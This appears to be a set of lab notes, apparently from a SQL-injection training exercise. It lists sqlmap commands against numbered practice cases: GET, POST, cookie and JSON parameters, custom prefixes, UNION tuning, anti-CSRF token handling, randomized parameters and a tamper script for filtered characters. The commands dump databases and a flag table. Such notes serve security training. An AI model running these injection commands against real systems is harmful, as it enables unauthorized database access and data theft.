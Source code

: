 ___
# GET

```bash
sqlmap -u "http://83.136.254.47:49729/case1.php?id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

- --dbs
- --tables -D testdb
- --dump -T flag1 -D testdb
# POST

```bash
sqlmap -u "http://83.136.254.47:49729/case2.php" --data='id=1' --method POST --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Cookie

```bash
sqlmap -u "http://83.136.254.47:49729/case3.php" --cookie="id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# JSON

```bash
sqlmap -u "http://83.136.254.47:49729/case4.php" --data='{"id":1}' --method POST --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# OR SQLi

```bash
sqlmap -u "http://83.136.254.47:49729/case5.php?id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Non-standard boundaries

```bash
sqlmap -u "http://83.136.254.47:49729/case6.php?col=id" --level 5 --risk 3 -p col --batch --threads 10 --dbms=mysql --dbs --prefix='`)'
```

# UNION SQLi with adjustments

```bash
sqlmap http://94.237.52.98:38740/case7.php?id=1 --union-cols=5 --level 5 --risk 3 -p id --batch --dbs
```

# anti-CSRF token bypass

```bash
sqlmap -u "http://83.136.254.47:46258/case8.php?id=1" --data="id=1&t0ken=N2zrnsP1IZI7DxBalvg1xgQ4q1cTf6Y4dumE1ts" --method POST --csrf-token="t0ken" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs
```

# Unique ID

```bash
sqlmap -u "http://94.237.52.98:38740/case9.php?id=1&uid=1705034632" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs --randomize=uid
```

# Primitive protection

```bash
sqlmap -u "http://94.237.52.98:38740/case10.php" --data='id=1' --batch --threads 10 --dbms=mysql --dbs --random-agent
```

# Filtering of characters '<', '>'

```bash
sqlmap -u "http://94.237.52.98:38740/case11.php?id=1" -p id --batch --dbms=mysql --dbs --tamper=between
```
```txt
[WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to reru  
n with the '--tamper=between'
```